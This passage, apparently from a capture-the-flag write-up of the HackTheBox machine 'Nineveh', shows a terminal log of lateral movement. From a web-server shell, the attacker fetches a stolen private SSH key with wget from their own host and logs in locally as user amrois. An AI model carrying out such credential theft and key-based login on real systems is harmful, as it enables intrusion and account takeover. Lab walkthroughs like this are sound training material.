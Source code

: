### SSH without Port Knocking



```
www-data@nineveh:/tmp$ wget 10.10.14.6/amrois.key
wget 10.10.14.6/amrois.key
--2021-11-30 10:39:15--  http://10.10.14.6/amrois.key
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1676 (1.6K) [application/pgp-keys]
Saving to: 'amrois.key'

amrois.key          100%[===================>]   1.64K  --.-KB/s    in 0.004s  

2021-11-30 10:39:15 (408 KB/s) - 'amrois.key' saved [1676/1676]

www-data@nineveh:/tmp$ ls -la amrois.key
ls -la amrois.key
-rw-rw-rw- 1 www-data www-data 1676 Nov 29 08:32 amrois.key
www-data@nineveh:/tmp$ chmod 600 amrois.key
chmod 600 amrois.key
www-data@nineveh:/tmp$ ls -la amrois.key
ls -la amrois.key
-rw------- 1 www-data www-data 1676 Nov 29 08:32 amrois.key
www-data@nineveh:/tmp$ ssh -i amrois.key amrois@127.0.0.1
ssh -i amrois.key amrois@127.0.0.1
Could not create directory '/var/www/.ssh'.
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:aWXPsULnr55BcRUl/zX0n4gfJy5fg29KkuvnADFyMvk.
Are you sure you want to continue connecting (yes/no)? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Ubuntu 16.04.2 LTS
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

288 packages can be updated.
207 updates are security updates.


You have mail.
Last login: Tue Nov 30 07:52:02 2021 from 10.10.14.6
amrois@nineveh:~$ id
id
uid=1000(amrois) gid=1000(amrois) groups=1000(amrois)
amrois@nineveh:~$
```

## Gaining Access - phpinfo & LFI
